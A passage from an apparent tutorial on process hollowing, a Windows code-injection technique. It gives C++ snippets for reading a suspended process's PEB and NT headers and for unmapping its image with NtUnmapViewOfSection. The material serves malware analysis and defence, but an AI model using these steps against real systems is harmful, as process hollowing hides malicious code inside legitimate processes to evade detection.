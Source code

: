  
Once the process is created its memory space can be modified using the handle provided by the hProcess member of the PROCESS_INFORMATION structure.

## Gathering Information
First, the base address of the destination image must be located. This can be done by querying the process with NtQueryProcessInformation to acquire the address of the process environment block (PEB). The PEB is then read using ReadProcessMemory. All of this functionality is encapsulated within a convenient helper function named ReadRemotePEB.

```cpp
PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);
```
 
Once the PEB is read from the process, the image base is used to read the NT headers. Once again ReadProcessMemory is utilized, and the functionality is wrapped in a convenient helper function.

```cpp
PLOADED_IMAGE pImage = ReadRemoteImage
(
      pProcessInfo->hProcess,
      pPEB->ImageBaseAddress
);
```
 
Carving The Hole
With headers in hand there is no longer a need for the destination image to be mapped into memory. The NtUnmapViewOfSection function can be utilized to get rid of it. 

```cpp
printf("Unmapping destination section\r\n");
 
HMODULE hNTDLL = GetModuleHandleA("ntdll");
 
FARPROC fpNtUnmapViewOfSection = GetProcAddress
(
      hNTDLL,
      "NtUnmapViewOfSection"
);
 
_NtUnmapViewOfSection NtUnmapViewOfSection =
      (_NtUnmapViewOfSection)fpNtUnmapViewOfSection;
 
DWORD dwResult = NtUnmapViewOfSection
(
      pProcessInfo->hProcess,
      pPEB->ImageBaseAddress
);
 
if (dwResult)
{
      printf("Error unmapping section\r\n");
      return;
}
```
 